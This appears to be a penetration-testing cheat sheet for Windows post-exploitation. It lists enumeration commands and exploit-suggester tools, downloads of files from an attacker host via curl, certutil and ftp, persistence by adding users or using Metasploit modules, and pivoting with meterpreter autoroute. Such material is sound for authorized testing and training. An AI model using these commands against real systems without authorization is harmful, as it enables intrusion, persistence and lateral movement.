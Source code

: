 ##  Information collection

List of installed patches

    wmic qfe get Caption,Description,HotFixID,InstalledOn
 
 
Network connections

    netstat -r    # route info
    
    netstat -ano  # connections and the PID
    
    route print
    
    
Processes
 
     tasklist
    
    

Arp table

    arp -a
    
Egrees firewall testing: 

 If python is useable: 
 
    https://github.com/stufus/egresscheck-framework
    
 If python is not useable and powershell is: 
 
     powershell.exe Get-Alias-DefinitionInvoke-WebRequest|Format-Table-AutoSize
     
     powershell.exe curl http://<ip><port>/x

-------------------------------------------------------------------------------------

## Exploits

   
Auto finding exploits based on system information and installed patches
 
    cmd.exe /c systeminfo > systeminfo.txt

    ./winpwnSuggester.py --update

    ./winpwnSuggester.py --database YYYY-MM-DD-mssb.xls --systeminfo ~/sysinfo.txt
  
    [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)


metasploit exploit suggester module

    post/recon/local_exploit_suggester

-------------------------------------------------------------------------------------

## Downloading files from attacker machine 

    curl http://<ip>:8000/<file> -O <file>
    
    certutil.exe -urlcache -f http://<ip>:8000/<remotefile> <save filename>
    
    Naviage directly through browser 
    
    ftp <ip>   #On attacker machine: python -m pyftpdlib 21  

    upload  #If using meterpreter


 ## Maintain persistence

  - Add user
  
        net user <username> <pass> /add

  - Metasploit
  
        exploit/windows/local/persistence
        
        exploit/windows/local/registry_persistence

        run persistence -h

  - Set a scheduled task


## Pivoting

 If pwnd target has a connection to a network that we do not have a connection to, we can set up a route on the machine to forward our traffic 
 
   - Meterpreter 
   
         run autoroute -s <target network seen via enumeration>/CIDR
         
         run autoroute -p   #to confirm
         
       you can now test by pinging a device on the remote network
       
       
## Escalating privilege

[Token impersonation](https://github.com/Kahvi-0/Vulnerabilities-and-Exploitations/blob/master/Local/Token%20Impersonation.md)

# Find more

 Metasploit:
 
   post/winodws/
